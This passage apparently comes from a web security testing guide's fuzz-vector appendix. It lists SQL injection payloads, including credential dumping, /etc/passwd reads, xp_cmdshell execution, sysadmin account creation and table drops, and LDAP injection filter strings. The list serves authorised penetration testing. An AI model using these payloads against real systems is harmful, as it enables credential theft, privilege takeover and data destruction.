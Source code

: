 `%27+OR+%277659%27%3D%277659`
`%22+or+isnull%281%2F0%29+%2F*`
`%27+--+&password=`
`'; begin declare @var varchar(8000) set @var=':' select @var=@var+'+login+'/'+password+' ' from users where login >`
`@var select @var as var into temp end --`
`' and 1 in (select var from temp)--`
`' union select 1,load_file('/etc/passwd'),1,1,1;`
`1;(load_file(char(47,101,116,99,47,112,97,115,115,119,100))),1,1,1;`
`' and 1=( if((load_file(char(110,46,101,120,116))<>char(39,39)),1,0));`

### Active SQL Injection (SQI)

`'; exec master..xp_cmdshell 'ping 10.10.1.2'--`
`CREATE USER name IDENTIFIED BY 'pass123'`
`CREATE USER name IDENTIFIED BY pass123 TEMPORARY TABLESPACE temp DEFAULT TABLESPACE users;`
`' ; drop table temp --`
`exec sp_addlogin 'name' , 'password'`
`exec sp_addsrvrolemember 'name' , 'sysadmin'`
`INSERT INTO mysql.user (user, host, password) VALUES ('name', 'localhost', PASSWORD('pass123'))`
`GRANT CONNECT TO name; GRANT RESOURCE TO name;`
`INSERT INTO Users(Login, Password, Level) VALUES( char(0x70) + char(0x65) + char(0x74) + char(0x65) + char(0x72) + char(0x70)`
`+ char(0x65) + char(0x74) + char(0x65) + char(0x72),char(0x64)`

## LDAP Injection

For details on LDAP Injection: [Testing for LDAP Injection](../4_Web_Application_Security_Testing/4.8_Input_Validation_Testing/4.8.6_Testing_for_LDAP_Injection_OTG-INPVAL-006.md)

`|`
`!`
`(`
`)`
`%28`
`%29`
`&`
`%26`
`%21`
`%7C`
`*|`
`%2A%7C`
`*(|(mail=*))`
`%2A%28%7C%28mail%3D%2A%29%29`
`*(|(objectclass=*))`
`%2A%28%7C%28objectclass%3D%2A%29%29`
`*()|%26'`
`admin*`
`admin*)((|userPassword=*)`
`*)(uid=*))(|(uid=*`

## XPATH Injection
